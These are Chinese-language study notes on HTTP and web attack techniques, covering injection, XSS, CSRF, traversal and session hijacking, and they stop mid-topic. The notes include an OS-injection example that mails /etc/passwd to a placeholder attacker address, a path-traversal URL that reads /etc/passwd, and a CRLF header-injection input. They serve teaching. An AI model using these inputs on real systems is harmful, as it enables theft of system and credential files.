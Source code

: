 HTTP协议受众广泛
互联网上，使用率最高的当属web，构建web服务器或者访问 web站点，需事先设置防火墙http(80/tcp)和HTTPS（443/tcp）的权限
许多公司或组织已设定权限将HTTP作为通信环境，无须再修改防火墙的设定。

第十章
构建web内容的技术

第十一章 Web 的攻击技术

在HTTP 请求报文内加载攻击代码，就能发起对web应用的攻击，通过URL查询字段或表单，HTTP首部、Cookie 等途径把攻击代码传入，若这时web应用存在安全漏洞，那内部信息就会遭到窃取，或被攻击者拿到管理权限。

主动攻击
被动攻击


主动攻击是指攻击者通过直接访问web应用，把攻击代码传入的攻击模式，由于该模式是直接针对服务器上的资源进行攻击，因此攻击者需要能够访问到那些资源

被动攻击是指利用圈套策略执行攻击代码的攻击模式，在被动攻击过程中，攻击者不直接对目标web应用访问发起攻击 ——跨站脚本攻击和跨站点请求伪造

Web 应用的安全对策可大致分为以下两部分
1. 客户端的验证
2. web 应用端（服务器端）的验证
输入值验证
输出值转义

XSS 攻击，一般是闭合掉可执行代码标签的属性后补充上script标签

SQL 注入攻击
非法查看或篡改数据库内的数据
规避认证
执行和数据库服务器业务关联的程序等

SQL 注入

是攻击者将SQL语句改变成开发者意想不到的形式达到破坏结构的攻击

OS注入攻击

`open(MAIL, "| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp");`

HTTP 首部注入攻击

攻击者输入 %0D%0A 经过解析之后， %0D%0A 变成了换行符，结果插入了新的首部字段

目录遍历攻击

http://example.com/read/php?log=../../etc/passwd

开放重定向

会话劫持
会话劫持是指攻击者通过某种手段拿到了用户的会话ID，并非法使用此会话id伪装成用户，达到攻击的目的

跨站点请求伪造CSRF

密码破解

1. 通过网络密码试错 （穷举法、字典攻击）
2. 对已加密密码的破解

从加密过的数据中导出明文通常有几种方法
